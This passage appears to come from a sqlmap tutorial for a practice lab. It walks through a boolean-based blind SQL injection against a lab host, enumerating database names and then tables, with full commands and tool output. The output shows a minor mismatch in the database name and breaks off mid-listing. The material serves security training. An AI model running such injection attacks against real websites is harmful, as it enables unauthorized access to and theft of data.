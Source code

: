 To fetch the databases, we use the flag --dbs. Let's try this flag out with our vulnerable URL:

Extracting databases names
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:49:01] [INFO] fetching database names
available databases [2]:
[*] users
[*] members

[text removed]
After running the above command, we got two database names. Select the users database and fetch the tables inside of it. We will define the database after the flag -D and use the --tables flag at the end to extract all the table names.

Extracting tables
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:50:46] [INFO] resuming back-end DBMS' mysql' 
[08:50:46] [INFO] testing connection to the target URL
[08:50:46] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:50:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]